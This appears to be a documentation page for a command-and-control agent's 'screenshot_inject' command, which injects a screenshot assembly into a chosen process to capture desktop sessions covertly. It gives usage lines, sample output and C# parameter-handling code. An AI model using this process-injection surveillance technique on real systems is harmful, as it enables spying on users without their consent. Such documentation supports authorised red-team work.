 +++
title = "screenshot_inject"
chapter = false
weight = 103
hidden = false
+++

{{% notice info %}}
Artifacts Generated: Process Inject
{{% /notice %}}

## Summary
Injects a screenshot capture assembly into a target process to capture desktop sessions from that process's security context. Uses process injection, named pipes for IPC, and supports multiple screenshots with configurable intervals. Bypasses session isolation by executing in the context of the target process.

- **Needs Admin:** False (depends on target process privileges)
- **Version:** 2
- **Author:** @reznok, @djhohnstein

### Arguments
- **pid** (Number, Required) - Process ID to inject screenshot assembly into
- **count** (Number, Optional) - Number of screenshots to capture (default: 1)
- **interval** (Number, Optional) - Seconds between screenshots (default: 0)

## Usage
```
screenshot_inject -PID 1234
screenshot_inject -PID 1234 -Count 5 -Interval 2
screenshot_inject -PID 2048 -Count 10 -Interval 1
```

**Output:**
```
Process injection artifact generated for PID 1234
Multiple JPEG screenshot files uploaded to Mythic:
- Screenshot 1: 1920x1080 desktop capture
- Screenshot 2: 1920x1080 desktop capture (2 seconds later)
- Screenshot 3: 1920x1080 desktop capture (4 seconds later)
```

## Detailed Summary

### Agent Execution Flow

#### 1. Parameter Processing and Validation
```csharp
[DataContract]
internal struct ScreenshotInjectParameters
{
    [DataMember(Name = "pipe_name")] public string PipeName;
    [DataMember(Name = "count")] public int Count;
    [DataMember(Name = "interval")] public int Interval;
    [DataMember(Name = "loader_stub_id")] public string LoaderStubId;
    [DataMember(Name = "pid")] public int PID;
}

ScreenshotInjectParameters parameters = _jsonSerializer.Deserialize<ScreenshotInjectParameters>(_data.Parameters);
```
- Deserializes injection parameters from JSON
- Validates required parameters (PID, pipe name, loader stub ID)
- Sets default values for optional parameters (count=1, interval=0)